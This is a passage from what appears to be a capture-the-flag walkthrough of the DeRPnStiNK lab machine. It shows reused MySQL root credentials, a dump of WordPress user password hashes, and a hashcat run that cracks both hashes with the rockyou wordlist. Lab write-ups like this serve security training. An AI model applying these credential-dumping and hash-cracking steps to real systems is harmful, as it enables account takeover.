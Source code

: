 ```shell
/** Database Charset to use in creating database tables. */
www-data@DeRPnStiNK:/var/www/html/weblog$
```

Credentials `root:mysql`

## mysql

```shell
mysql> select * from wp_users;
select * from wp_users;
+----+-------------+------------------------------------+---------------+------------------------------+----------+---------------------+-----------------------------------------------+-------------+--------------+-------+
| ID | user_login  | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key                           | user_status | display_name | flag2 |
+----+-------------+------------------------------------+---------------+------------------------------+----------+---------------------+-----------------------------------------------+-------------+--------------+-------+
|  1 | unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 | unclestinky   | unclestinky@DeRPnStiNK.local |          | 2017-11-12 03:25:32 | 1510544888:$P$BQbCmzW/ICRqb1hU96nIVUFOlNMKJM1 |           0 | unclestinky  |       |
|  2 | admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ | admin         | admin@derpnstink.local       |          | 2017-11-13 04:29:35 |                                               |           0 | admin        |       |
+----+-------------+------------------------------------+---------------+------------------------------+----------+---------------------+-----------------------------------------------+-------------+--------------+-------+
2 rows in set (0.00 sec)
```

## cracking passwords

```shell
cat derpnstink-1.wp.hashes        
$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41



hashcat -w3 -m400 -a0 -o cracked.derpnstink-1.wp.hashes derpnstink-1.wp.hashes /usr/share/wordlists/rockyou.txt
...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344410
* Bytes.....: 139921705
* Keyspace..: 14344403
* Runtime...: 1 sec

                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: phpass
Hash.Target......: derpnstink-1.wp.hashes
Time.Started.....: Mon Dec 27 16:05:57 2021 (2 secs)
Time.Estimated...: Mon Dec 27 16:05:59 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1377.7 kH/s (59.51ms) @ Accel:32 Loops:1024 Thr:1024 Vec:1
Recovered........: 2/2 (100.00%) Digests, 2/2 (100.00%) Salts
Progress.........: 5767168/28688806 (20.10%)
Rejected.........: 0/5767168 (0.00%)
```